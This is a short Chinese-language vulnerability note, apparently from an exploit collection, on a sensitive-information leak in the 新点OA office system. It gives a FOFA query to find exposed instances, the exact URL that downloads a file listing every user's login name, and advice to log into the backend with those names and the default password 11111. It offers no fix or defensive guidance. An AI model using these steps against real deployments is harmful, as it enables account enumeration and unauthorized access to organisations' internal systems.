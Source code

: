 # 新点OA 敏感信息泄露漏洞

## 漏洞描述

新点OA 存在敏感信息泄露漏洞，访问特定的Url时可以获取所有用户的登录名信息，攻击者获取后可以进一步利用

## 漏洞影响

> [!NOTE]
>
> 新点OA

## FOFA

> [!NOTE]
>
> app="新点OA"

## 漏洞复现

构造的Url为

```
/ExcelExport/人员列表.xls
```

将会下载人员列表文件

![](image/xd-1.png)

通过获取的登录名登陆后台(默认密码11111)